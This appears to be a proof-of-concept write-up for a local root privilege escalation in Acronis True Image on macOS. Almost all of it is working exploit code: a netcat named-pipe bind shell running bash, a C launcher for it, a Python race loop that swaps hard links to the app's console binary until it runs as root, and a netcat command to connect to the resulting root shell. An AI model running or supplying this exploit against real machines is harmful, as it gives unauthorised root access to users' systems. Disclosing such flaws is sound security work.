 ### Running The PoC 
First we make the shell command to run 
```bash
echo "mkfifo myfifo;nc -l 127.0.0.1 8080 < myfifo | /bin/bash -i > myfifo 2>&1" > shell 
```
Now lets make the c program that will run this shell command naming it test.c
```c
#include <stdlib.h>
int main() {
	system("touch pass;bash shell");
	return 0;
}
```
Compile the program
```bash
gcc test.c 
```
Run the following python program. The program will run for a number of iterations before it works.
```python
import os 
import time 

os.link("/Applications/Acronis True Image.app/Contents/MacOS/Acronis True Image", "./run")
os.link("/Applications/Acronis True Image.app/Contents/MacOS/console", "./console")

delay = 0.01 
while True: 
	os.popen("./run")
	time.sleep(delay)
	os.unlink("./console")
	os.link("./a.out", "./console")
	time.sleep(1.0)
	os.unlink("./console")
	os.link("Applications/Acronis True Image.app/Contents/MacOS/console", "./console")
	delay += 0.01 
	if os.path.exists("./pass"):
		os.unlink("./console")
		os.unlink("./run")
		os.unlink("./pass")
		exit()
```
Connect to the root shell
```bash
nc 127.0.0.1 8080
```

##### Video of the exploit running 

![image](https://github.com/vkas-afk/vkas-afk.github.io/blob/main/26_%20february_2023_demo_opt.gif)
